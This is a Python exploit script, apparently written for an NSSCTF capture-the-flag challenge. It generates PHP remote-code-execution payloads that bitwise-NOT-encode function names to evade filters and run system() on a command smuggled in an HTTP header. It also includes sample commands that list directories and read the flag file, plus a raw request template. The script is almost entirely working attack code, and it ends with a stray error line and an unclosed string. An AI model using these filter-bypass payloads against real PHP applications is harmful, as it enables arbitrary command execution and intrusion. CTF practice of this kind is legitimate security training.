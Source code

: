 exp：

```python
### 使用哪个payload需要构造print_r(getallheaders())的payload查看http头中新增http头的所在是数组头还是数组未,文末看具体例子
## Linux通常再数组尾部
# command = "system(end(getallheaders()))"
# cmd = "ls /;cat /nssctfflag;"

## windows通常再数组头部
# command = "system(current(getallheaders()))"
# cmd = "dir;whoami;"

command = "print_r(getallheaders())"

host = "node4.anna.nssctf.cn:28674"

##异或取反脚本
codes = command.replace(")","").split("(")[:-1][::-1]
res = ""
inline = ""
res2 = ""
inline2 = ""
for code in codes:
    re_code = "~"+"".join(["%"+hex(255 - ord(i))[2:]for i in code])
    res = f"[{re_code}][!%ff]({inline})"
    res2 = f"({re_code})({inline2})"
    inline = res
    inline2 = res2
    # print(res)
res += ";"
res2 += ";"
print(f'payload1: {res}')
print(f'payload2: {res2}')

##发送数据
# raw = f'''GET /?code={res} HTTP/1.1
# Host: {host}
# Connection: close
# Content-Length: 0
# cmd: {cmd}


# '''.replace("\n","\r\n").encode()

# print(raw)

'''
例如：
req:
GET /test1.php?code=(~%8f%8d%96%91%8b%a0%8d)((~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c)()); HTTP/1.1
Host: 10.10.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.1.742250855.1729494993; _ga_R1FN4KJKJH=GS1.1.1729494993.1.1.1729495564.0.0.0
Connection: close
CMD: dir;        <===============这个


```

[ERROR]: could not find driver